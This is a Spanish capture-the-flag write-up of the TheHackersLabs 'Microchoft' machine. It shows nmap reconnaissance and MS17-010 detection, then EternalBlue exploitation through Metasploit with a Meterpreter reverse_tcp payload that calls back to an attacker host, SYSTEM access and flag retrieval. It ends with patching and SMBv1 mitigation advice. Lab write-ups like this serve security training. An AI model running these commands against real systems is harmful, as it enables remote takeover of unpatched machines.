







## Información General

| Campo                    | Detalle                                |
| ------------------------ | -------------------------------------- |
| Plataforma               | TheHackersLabs                         |
| Máquina                  | Microchoft                             |
| Dificultad               | Fácil                                  |
| Sistema Operativo        | Windows 7 Home Basic SP1 (Build 7601)  |
| Fecha                    | 18/08/2026                             |
| Vulnerabilidad principal | MS17-010 / EternalBlue (CVE-2017-0143) |

---

## Resumen del Ataque

La máquina Microchoft expone un servicio SMB en Windows 7 SP1 vulnerable a MS17-010 (EternalBlue). El escaneo de puertos reveló los servicios típicos de un host Windows en workgroup (135, 139, 445 y una serie de puertos RPC dinámicos). La detección de versión de nmap identificó el sistema como Windows 7 Home Basic 7601 SP1, y el script `smb-vuln-ms17-010` confirmó que el host es vulnerable a la ejecución remota de código sobre SMBv1. Se explotó directamente con el módulo de Metasploit `exploit/windows/smb/ms17_010_eternalblue`, obteniendo una sesión Meterpreter con privilegios de `NT AUTHORITY\SYSTEM` sin necesidad de ninguna fase de escalada de privilegios. Con esa sesión se leyeron directamente las flags de usuario y administrador desde sus respectivos escritorios.

---

## Técnicas Usadas

- Escaneo de puertos completo con `nmap` (`-p-`, `-sS`, `--min-rate`)
- Enumeración de servicios y versiones (`nmap -sC -sV`)
- Detección de vulnerabilidad SMB con script NSE (`smb-vuln-ms17-010`)
- Explotación remota con Metasploit Framework (EternalBlue, CVE-2017-0143)
- Post-explotación con Meterpreter (`getuid`, `shell`)
- Lectura de flags con `type`

---

## Desarrollo

### 1. Escaneo de puertos completo

Se lanza un escaneo SYN a todo el rango de puertos para no perder ningún servicio expuesto:

```
sudo nmap -p- -sS --min-rate 5000 -n -vvv -Pn -oN ports 192.168.241.154
```



El TTL de 128 y el juego de puertos (135, 139, 445 + rango RPC dinámico alto) son ya un indicio claro de que se trata de un host Windows.

### 2. Enumeración de versiones y servicios

Con los puertos identificados, se lanza un escaneo de versión y scripts por defecto sobre ellos:

```
nmap -p 135,139,445,49152,49153,49154,49155,49156,49157 -sC -sV -oN allports 192.168.241.154
```



Se confirma que el objetivo es un Windows 7 Home Basic 7601 SP1, en workgroup, con nombre de host `MICROCHOFT`. Al tratarse de una versión sin actualizaciones desde 2017, el candidato inmediato a comprobar es MS17-010.

### 3. Comprobación de MS17-010

Se usa el script NSE dedicado para confirmar la vulnerabilidad antes de lanzar el exploit:

```
nmap -p 445 --script smb-vuln-ms17-010 192.168.241.154
```



Confirmado: el host es vulnerable a CVE-2017-0143 (EternalBlue), con riesgo catalogado como HIGH.

### 4. Explotación con Metasploit

Se levanta Metasploit y se busca el módulo correspondiente:

```
sudo msfconsole -q
```

```
msf > search ms17_010_eternalblue
msf > use exploit/windows/smb/ms17_010_eternalblue
```

Se configuran los parámetros del exploit y del payload:

```
msf > set RHOSTS 192.168.241.154
msf > set PAYLOAD windows/x64/meterpreter/reverse_tcp
```

```
msf > set LHOST 192.168.241.128
msf > exploit
```



El exploit funciona a la primera, sin necesidad de ajustar `TARGET` manualmente, y se obtiene sesión Meterpreter.

### 5. Verificación de privilegios

```
meterpreter > getuid
```


La sesión obtenida ya es SYSTEM: no hace falta ninguna fase de escalada de privilegios, EternalBlue compromete el kernel directamente.

### 6. Shell interactiva y captura de flags

Se pasa a una shell de Windows sobre la sesión Meterpreter:

```
meterpreter > shell
```



Flag de usuario:

```
C:\Users\Lola\Desktop>type user.txt
```



Flag de administrador:

```
C:\Users\Admin\Desktop>type admin.txt.txt
```



---

## Lecciones Aprendidas

- Un Windows 7 sin parchear y expuesto a SMB en la red es sinónimo de compromiso total e inmediato: no hay intermedios entre "sin acceso" y "SYSTEM".
- MS17-010 sigue siendo, casi diez años después, uno de los primeros checks obligatorios ante cualquier host Windows antiguo con el 445 abierto.
- El flujo de trabajo típico (escaneo completo → detección de versión → script NSE de vulnerabilidad → exploit conocido en Metasploit) es suficiente para resolver la máquina de principio a fin sin necesidad de enumeración adicional ni fuzzing.
- La ausencia de fase de escalada de privilegios en esta máquina refleja el impacto real de EternalBlue: el exploit se ejecuta en el contexto del propio SMB, que en Windows corre como SYSTEM.

---

## Medidas de Mitigación

- Aplicar el parche MS17-010 (KB4012212 / KB4012215 según versión) de forma inmediata en cualquier host que aún lo requiera.
- Deshabilitar SMBv1 por completo, ya que no es necesario en entornos modernos y es el vector de explotación de esta vulnerabilidad.
- Retirar o aislar en una VLAN sin acceso a internet cualquier sistema operativo fuera de soporte (Windows 7, Server 2008, etc.) que no pueda actualizarse.
- Filtrar el acceso a los puertos 139/445 desde el perímetro y entre segmentos de red que no lo requieran explícitamente.
- Desplegar detección basada en firmas/IDS para el patrón de tráfico de EternalBlue, dado que sigue siendo explotado activamente en la actualidad.

